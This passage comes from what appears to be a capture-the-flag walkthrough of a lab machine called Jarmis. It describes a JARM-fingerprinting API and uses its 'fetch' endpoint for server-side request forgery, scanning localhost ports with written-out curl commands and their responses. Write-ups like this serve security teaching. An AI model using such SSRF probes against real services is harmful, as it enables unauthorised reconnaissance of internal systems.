 

The first one takes an ID and returns an JARM, just like I observed on
the front page.

`signature` takes a string and an optional `max_results`:

![](/img/image-20210922170411414.png)

`fetch` gives a bit more information:

![](/img/image-20210922170122847.png)

"grab metadata if malicious" is interesting. That sounds more like a
connection, not just handshake and close.

### Localhost TLS Port Scan

Using the `fetch` endpoint, I can scan the local machine for open ports:



    oxdf@parrot$ curl http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:20
    {"sig":"00000000000000000000000000000000000000000000000000000000000000", "endpoint":"null","note":"localhost"} 
    oxdf@parrot$ curl http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:21
    {"sig":"00000000000000000000000000000000000000000000000000000000000000", "endpoint":"null","note":"localhost"}
    oxdf@parrot$ curl http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:22
    {"sig":"00000000000000000000000000000000000000000000000000000000000000", "endpoint":"127.0.0.1:22","note":"localhost"}
    oxdf@parrot$ curl http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:23
    {"sig":"00000000000000000000000000000000000000000000000000000000000000", "endpoint":"null","note":"localhost"}
    oxdf@parrot$ curl http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:80
    {"sig":"00000000000000000000000000000000000000000000000000000000000000", "endpoint":"127.0.0.1:80","note":"localhost"} 
    oxdf@parrot$ curl http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:81
    {"sig":"00000000000000000000000000000000000000000000000000000000000000", "endpoint":"null","note":"localhost"}